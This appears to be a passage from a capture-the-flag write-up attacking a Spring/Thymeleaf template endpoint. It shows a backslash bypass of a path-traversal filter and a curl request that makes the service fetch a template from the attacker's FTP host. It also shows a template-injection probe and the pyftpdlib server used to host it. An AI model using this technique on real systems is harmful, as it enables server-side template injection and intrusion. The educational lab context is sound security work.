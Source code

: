 ```java
    resolver.setCharacterEncoding(StandardCharsets.UTF_8.name());
    resolver.setPrefix(this.templatePrefix);
    resolver.setSuffix(this.templateSuffix);
    SpringTemplateEngine templateEngine = new SpringTemplateEngine();
    templateEngine.setTemplateResolver((ITemplateResolver)resolver);
    return templateEngine;
  }
}
```

Note the safety checks:
```java
if (fname.contains("../"))
  return "error"; 
InputStream inputStream = this.applicationContext.getResource(this.templatePrefix + this.templatePrefix + fname).getInputStream();
if (inputStream != null && safeCheck(inputStream)) {
  String result = getTemplateEngine().process(fname, (IContext)new Context());
  return result;
} 
return "error";
```

The path traversal check is quite weak due to a simple bypass with `..\`. This worked well locally but we were sure that the point wasn't in fetching local files.

The way code worked was by attaching a prefix of `file:///non_exists/` to a template of our choice. As per RFC, you may specify a remote authority for non-local files, e.g. `file://host.example.com/path/to/file`.

When specifying remote paths, the java service will try to fetch the file via FTP:
```
$ curl 'http://172.17.0.2:8080/notify?fname=..%5c..%5c172.17.0.1/payload' -H 'Cookie: JSESSIONID=6FA5A7A9F393356B15FD4201921AD1DD'
{"timestamp":"2024-01-28T14:14:44.298+00:00","status":500,"error":"Internal Server Error","path":"/notify"}
```

The error on the service was:
```
2024-01-28T14:14:44.295Z ERROR 67 --- [nio-8080-exec-9] o.a.c.c.C.[.[.[/].[dispatcherServlet]    : Servlet.service() for servlet [dispatcherServlet] in context with path [] threw exception

java.net.ConnectException: Connection refused
	at java.base/sun.nio.ch.Net.pollConnect(Native Method) ~[na:na]
	at java.base/sun.nio.ch.Net.pollConnectNow(Net.java:672) ~[na:na]
	at java.base/sun.nio.ch.NioSocketImpl.timedFinishConnect(NioSocketImpl.java:542) ~[na:na]
	at java.base/sun.nio.ch.NioSocketImpl.connect(NioSocketImpl.java:597) ~[na:na]
	at java.base/java.net.Socket.connect(Socket.java:633) ~[na:na]
	at java.base/sun.net.ftp.impl.FtpClient.doConnect(FtpClient.java:1045) ~[na:na]
...
```

The idea behind the 2nd stage was to feed the service with a template file via FTP server. In order to do this we have created a `payload.html` file on the server and served it with `pyftpdlib`.
```
$ cat payload.html
[[9*9]]
$ sudo python3 -m pyftpdlib  -p 21
[sudo] password for vm: 
[I 2024-01-28 15:17:20] concurrency model: async
[I 2024-01-28 15:17:20] masquerade (NAT) address: None
[I 2024-01-28 15:17:20] passive ports: None
[I 2024-01-28 15:17:20] >>> starting FTP server on 0.0.0.0:21, pid=30954 <<<
^Z
[1]+  Stopped                 sudo python3 -m pyftpdlib -p 21
```